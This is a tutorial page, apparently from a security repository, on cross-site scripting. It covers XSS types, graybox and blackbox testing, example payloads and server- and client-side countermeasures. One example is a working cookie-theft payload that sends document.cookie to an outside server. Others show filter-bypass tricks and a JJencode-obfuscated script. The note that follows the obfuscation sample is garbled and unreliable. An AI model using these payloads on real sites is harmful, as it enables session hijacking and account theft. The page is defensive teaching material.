 # XSS 

## Lexic

* [JavaScript](items/javascript.md)
* [Cookies](items/cookies.md)
* [Web Client](items/web_client.md)
* [Web Server](items/web_server.md)
* [XMLHttpRequest](items/xhr.md)
* [WAF](items/waf.md)
* [Proxy](items/proxy.md)
* [SOP](items/sop.md)
* [HTML](items/html.md)
* [DOM](items/dom.md)

## Nomenclature 
### XSS stands for:
Cross Site Scripting
### Exploitability
Easy / Medium / Difficult according to the context
### Impact : 
Several: `disfigurements, theft of cookie, unauthorized files access, DoS, control victim browser, ` 
# Cross Site Scripting 
-----
## Overview 
The XSS attack is an attack realized when data submit from end user is `interpretted by a browser` through [Javascript](items/javascript.md) language mostly.
It is classified among `injection attacks`.  Early on, it was categorized as **three** kinds, `stored`, `DOM based` and `reflected`. 
* These three types were defined as follows :

  * __Stored XSS__: generally occurs when server stocks submitted data from one user and then this data could be seen by others users : in a message log, in user log, in user credentials, in message form, in user cv.
 
 `Client -> Server -> Users of the site (possibily including attacker)`

  * __Reflected XSS__ : when the user supplied data is automatically replied to the same user without escapping from the server.
 
 `Client -> Server -> Client`

  * __DOM based XSS__ : when the user input is not sent to the server but is used to automatically update its `DOM`.
 
 `Client -> Client`

* This classification was quickly deprecated. To clarify it, the research community proposed two new terms to help organize the types of XSS that can occur :
  * **Server XSS**
  * **Client XSS**

### Server XSS 
---
Server XSS occurs when untrusted data from user is replied with server generated HTML. In this case, the entire vulnerability is in **server-side code**, and the browser is simply rendering the response and executing any valid script embedded within it.

### Client XSS
----
Client XSS occurs when `untrusted data` is used to update the `DOM` with an unsafe call of **client-side script**. 

## How to test for XSS 
* `Graybox` test is the best way to test for XSS. Each HTTP data input and printed after could possibly be an XSS attack vector if the input is not escapped. 
For example this code is vulnerable.
```PHP
    <?php
    echo 'Hello <h1>' .$_GET["name"]. '!</h1>';
    ?>
```
If the value of name is ```</h1><script>alert('xss');</script><h1>``` the browser will get the following answer from the server 
```HTML
    <h1>!</h1>
    <script>alert('xss');</script>
    <h1></h1>
```	


* The best way to perform `black blackbox` XSS test in server is to use a `proxy`, `dirbust` the website and `analyze` all submitted data to the server and inject some HTML characters and analyse the server responses. Submit to check :
  * HTTP headers
  * URL parameters, query string
  * Request body, form data
  * Cookies, API storage 

From all the website submits listed, test with HTML chars (html entities), and look the render in browser. If it is not well escaped (the result is not HTML special character), probably the website is XSS vulnerable.

 
---
## Examples     
### Example 1 : cookie theft 
This code will send the cookie of the user who visit the website containing this payload. 

```HTML
    <img src="nonExistImg" onerror="myFunction()"/>
    <script>function myFunction(){
	window.location = "http://myServer/?cookie".concat("=", document.cookie);
	}
    </script>
```

### Example 2 : XSS with weak js function 

```Javascript
    myFunction(){
	myImg.src = document.getElementById('imgId').value; 
	document.body.appendChild(myImg); 
	}

```
If the user sends ```'); alert('xss'); document.getElement('``` the code will become ```myImg.src = document.getElementById(''); alert('xss'); document.getElementById('imgId').value;```

### Example 3 : Bad escapping
```Javascript
   myFunction(){
	userInputEscapped = userInput.replace('<script>', ' ');
	document.appendChild(userInputEscapped);
	}

```
This function appends to the document body the user input. It replaces the user input containing <script> by " ". 
For example, if a user inputs ```<script>alert("test");</script>``` the result will be ```alert("test");``` and then will not be executed.
This kind of escapping is very unuseful. If the attacker choose ```<SCRIPT>alert('test');</SCRIPT>``` the replace method is case sensitive, so the js script will be executed. 
```Javascript
myFunction(){
	userInputEscapped = userInput.replace('"', ' '); 
	document.body.appendChild(userInputEscapped); 
	}
```
	
In this example the quote char is replaced with ' '. An attacker could attack this implementation by using ```String.fromCharCode(35,120,115,115,34);``` to get ```alert("XSS")```.

### Obfuscation
`Obfuscation` is the deliberate act of creating source or machine code that is difficult for humans to understand. Like obfuscation in natural language, it may use needlessly roundabout expressions to compose statements. Programmers may deliberately obfuscate code to conceal its purpose (security through obscurity) or its logic or implicit values embedded in it, primarily, in order to prevent tampering, deter reverse engineering, or even as a puzzle or recreational challenge for someone reading the source code. This can be done manually or by using an automated tool, the latter being the preferred technique in industry.
#### Example:
Let's assume the following script:
```JavaScript
alert("Hello, JavaScript" );
```
After an obfuscation with [JJencode](http://utf-8.jp/public/jjencode.html); it looks like:
```JavaScript
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:
(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+
($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")
[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_]
[$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"(\\\"\\"+$.__$+$.__$+$.___+$.$$$_+
(![]+"")[$._$_]+(![]+"")[$._$_]+$._$+",\\"+$.$__+$.___+"\\"+$.__$+$.__$+$._$_+$.$_$_+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"
\\"+$.__$+$._$_+$._$$+$.$$__+"\\"+$.__$+$.$$_+$._$_+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$.___+$.__+"
\\\"\\"+$.$__+$.___+")"+"\"")())();
```
Note : Note that the **ENCODED** above does not appear in encoded files, rather it is the location where the encoded 
host code would appear. Also note that this algorithm does not work in direct mode (that is, putting it in a .js won’t 
work) because it requires a feature that was introduced in HTML 4.0. As a result, it must appear in an HTML page, and that HTML page must declare its need for HTML 4.0 or later using a declaration like this:
```<!DOCTYPE html PUBLIC “-//W3C//DTD HTML 4.0//EN”>```
The **HTML 4.0** 4.0’ string can be replaced by later versions, such as ‘HTML 4.1’ or ‘XHTML 1.0’, etc.

## Counter Measures
* **Rule #1**: **NEVER** trust client. Always perform `input validation` at every single posted by the user to the server. This includes `escaping`, `filtering` and checking everything related to data submit.
* **Rule #2**: Always update `plugins`, `modules`, `core` and all plugged packaged being used in web systems. Indeed, this contributes in limiting XSS flaws risks. This requires mastering and knowing each item used in the system/web site.
* **Rule #3**: `Disable`/`remove` unuseful features/modules cause `more one's web site embeds packages, higher is the risk of XSS vulnerability presence` mostly in CMSs.
* **Rule #4**: Think of using a [WAF](items/waf.md) and think of `deofuscation` methods. This part is developped [here](items/waf_counter_measures.md) using the **Open Source WAF** : [ModSecurity](items/modsecurity.md).
* **Rule #5**: Implement [CSP](items/CSP.md) policy `properly`.
* **Rule #6**: Use [HTTPOnly](items/http_only.md) while serving session cookies.
 

 Now let's pick up some server side programming languages for more `accurate ` countermeasures implementations.
These countermeasures are : 
### Data Validation 
Data validation is the process of ensuring that the application is running with correct data. For example if the program expects an integer for user input, then any other type of data would be discared.
`Every piece of user data must be validated when it is received(at the server side)`.

### Data sanitization 
Data sanitazion focuses on manipulating the data `to make sure it is safe `by removing any unwanted bits from the data and normalizing it to the correct form. For example if the application is expecting a plain text string as user input, any html markup should be removed.

### Output escaping 
To protect the integrity of displayed/output data, `the data should be escaped` when presenting to the user. This prevent browser from applying any unintended meaning to any special sequence of characters that may be found.

-----

### PHP
[Content](items/php_counter_measures.md)
----

### Java  
[Content](items/java_counter_measures.md)
----

### C#
[Content](items/c_sharp_counter_measures.md)
----

### Node.JS
[Content](items/node_js_countermeasures.md)
----
 
### Python
[Content](items/python_counter_measures.md)

## Client Side XSS counter measures 
* **Rule #1**: Avoiding client side document rewriting, redirection, or other sensitive actions, using client side data. Most of these effects can be achieved by using dynamic pages (server side).

* **Rule #2**: Analyzing and hardening the client side (Javascript) code. Reference to DOM objects that may be influenced by the user (attacker) should be inspected, including (but not limited to):
1. document.URL
2. document.URLUnencoded
3. document.location (and many of its properties)
4. document.referrer
5. window.location (and many of its properties)

`Note that a document object property or a window object property may be referenced syntactically in many ways - explicitly (e.g. window.location), implicitly (e.g. location), or via obtaining a handle to a window and using it (e.g. handle_to_some_window.location).`

* **Rule #3**:Special attention should be given to scenarios wherein the DOM is modified, either explicitly or potentially, either via raw access to the HTML or via access to the DOM itself, e.g. (by no means an exhaustive list, there are probably various browser extensions):
Write raw HTML, e.g.:
```js
	document.write(…)
        document.writeln(…)
        document.body.innerHtml=…
```

Directly modifying the DOM (including DHTML events), e.g.:
```js
     	document.forms[0].action=… //and various other collections
        document.attachEvent(…)
        document.create…(…)
        document.execCommand(…)
        document.body. … //accessing the DOM through the body object
        window.attachEvent(…)
```

Replacing the document URL, e.g.:
```js
	document.location=… (and assigning to location’s href, host and hostname)
        document.location.hostname=…
        document.location.replace(…)
        document.location.assign(…)
        document.URL=…
        window.navigate(…)

```

Opening/modifying a window, e.g.:
```js
        document.open(…)
        window.open(…)
        window.location.href=… (and assigning to location’s href, host and hostname)
```

Directly executing script, e.g.:
 ```js
 	eval(…)
        window.execScript(…)
        window.setInterval(…)
        window.setTimeout(…)
```
 

To continue the above example, an effective defense can be replacing the original script part with the following code, which verifies that the string written to the HTML page consists of alphanumeric characters only:

```html 
	<SCRIPT>
	var pos=document.URL.indexOf("name=")+5;
	var name=document.URL.substring(pos,document.URL.length);
	if (name.match(/^[a-zA-Z0-9]*$/)){
      		document.write(name);
	}
	else{
	      window.alert("Security error");
	}
</SCRIPT>
```
 

Such functionality can (and perhaps should) be provided through a generic library for sanitation of data (i.e. a set of Javascript functions that perform input validation and/or sanitation). The downside is that the security logic is exposed to the attackers - it is embedded in the HTML code. This makes it easier to understand and to attack it. While in the above example, the situation is very simple, in more complex scenarios wherein the security checks are less than perfect, this may come to play.

 

* **Rule #4**: Employing a very strict IPS policy in which, for example, page welcome.html is expected to receive a one only parameter named “name”, whose content is inspected, and any irregularity (including excessive parameters or no parameters) results in not serving the original page, likewise with any other violation (such as an Authorization header or Referer header containing problematic data), the original content must not be served. And in some cases, even this cannot guarantee that an attack will be thwarted.

